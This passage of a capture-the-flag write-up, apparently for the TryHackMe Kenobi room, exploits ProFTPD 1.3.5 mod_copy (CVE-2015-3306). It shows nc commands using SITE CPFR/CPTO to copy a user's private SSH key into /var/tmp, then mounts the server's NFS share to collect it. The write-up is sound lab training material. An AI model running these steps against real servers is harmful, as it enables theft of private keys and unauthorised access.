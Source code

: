 When you find some interesting things you can take look at the file with:
  
`searchsploit -x linux/remote/36742.txt`
  
Or save the files to your location with:
  
`searchsploit -m linux/remote/37262.rb`
  
> More infos about the exploit [https://www.cvedetails.com/cve/CVE-2015-3306/](https://www.cvedetails.com/cve/CVE-2015-3306/)
  

For this task we have to use `SITE CPFR and SITE CPTO commands`.
I never heard about this.
so here are my steps:
1. Use `nc 10.10.248.210 21`
2. Checkout the help pate `site help`
3. Get informations out of google.[http://www.proftpd.org/docs/contrib/mod_copy.html#SITE_CPFR](http://www.proftpd.org/docs/contrib/mod_copy.html#SITE_CPFR)
  

```sh
nc 10.10.248.210 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.248.210]
site help
214-The following SITE commands are recognized (* =>'s unimplemented)
 CPFR <sp> pathname
 CPTO <sp> pathname
 HELP
 CHGRP
 CHMOD
214 Direct comments to root@kenobi
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
  

<ins>Lets mount the nfs and copy the id_rsa</ins>
  
> Why and what could we mount? We find out in the step before that 
on port 111/tcp nfs is running and scan this with nmap-scrips.
That shows us the mountable drives.
  

```sh
mkdir /mnt/kenobiNFS

mount 10.10.248.210:/var /mnt/kenobiNFS
mount.nfs: failed to apply fstab options

-----> Not reachable cause to has to use "sudo"

sudo mount 10.10.248.210:/var /mnt/kenobiNFS
                                                                                
la /mnt/kenobiNFS 
insgesamt 48K
drwxr-xr-x  2 root root    4,0K  4. Sep 2019  backups/
drwxr-xr-x  9 root root    4,0K  4. Sep 2019  cache/
drwxrwxrwt  2 root root    4,0K  4. Sep 2019  crash/
drwxr-xr-x 40 root root    4,0K  4. Sep 2019  lib/
drwxrwsr-x  2 root staff   4,0K 12. Apr 2016  local/
lrwxrwxrwx  1 root root       9  4. Sep 2019  lock -> /run/lock/
drwxrwxr-x 10 root crontab 4,0K  4. Sep 2019  log/
drwxrwsr-x  2 root mail    4,0K 27. Feb 2019  mail/
drwxr-xr-x  2 root root    4,0K 27. Feb 2019  opt/
lrwxrwxrwx  1 root root       4  4. Sep 2019  run -> /run/
drwxr-xr-x  2 root root    4,0K 30. Jan 2019  snap/
drwxr-xr-x  5 root root    4,0K  4. Sep 2019  spool/
```

[Easypeasylink]: https://tryhackme.com/room/kenobi